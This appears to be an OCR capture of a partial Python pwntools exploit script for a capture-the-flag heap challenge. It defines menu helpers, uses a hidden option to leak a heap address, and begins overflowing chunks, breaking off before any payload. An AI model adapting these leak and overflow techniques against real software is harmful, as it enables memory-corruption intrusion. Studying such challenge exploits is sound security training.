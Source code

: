 ```python
                # b*0x000000000040189d
                # c
                # c
                # c
                # b*0x4016f4
                b*0x0000000000401843
                b*0x0000000000401b2e
                c
                c
                c
                c
                ''')
        input()


def info(msg): return log.info(msg)
def sla(msg, data): return p.sendlineafter(msg, data)
def sa(msg, data): return p.sendafter(msg, data)
def sl(data): return p.sendline(data)
def s(data): return p.send(data)


if args.REMOTE:
    p = remote('')
else:
    p = process(exe.path)


def leak(idx: int) -> int:
    sla(b"Option:", b"1337")
    sla(b"What is your favourite number?", str(idx).encode("ascii"))
    p.recvuntil(b"You found a secret message: ")
    leak = int(p.recvuntil(b"\n").replace(b"\n", b"").decode("ascii"), 16)
    return leak


def write(i, payload):
    sla(b"Option: ", b"1")
    sla(b"Index: ", f"{i}".encode())
    sa(b"long!\n", payload)


def throw(i):
    sla(b"Option: ", b"3")
    sla(b"Index: ", f"{i}".encode())


def edit(i, payload):
    sla(b"Option: ", b"2")
    sla(b"Index: ", f"{i}".encode())
    sa(b"before.\n", payload)


GDB()
signature = b"a"*5 + b"\x41"
sla(b"> ", b"a"*5 + p8(0x41))

write(1, b"A"*0x20)
write(2, b"B"*0x1)
write(3, b"C"*0x20)
write(4, b"D"*0x20)
heap_addr = leak(3)
edit(1, b"a" * 0x30)
```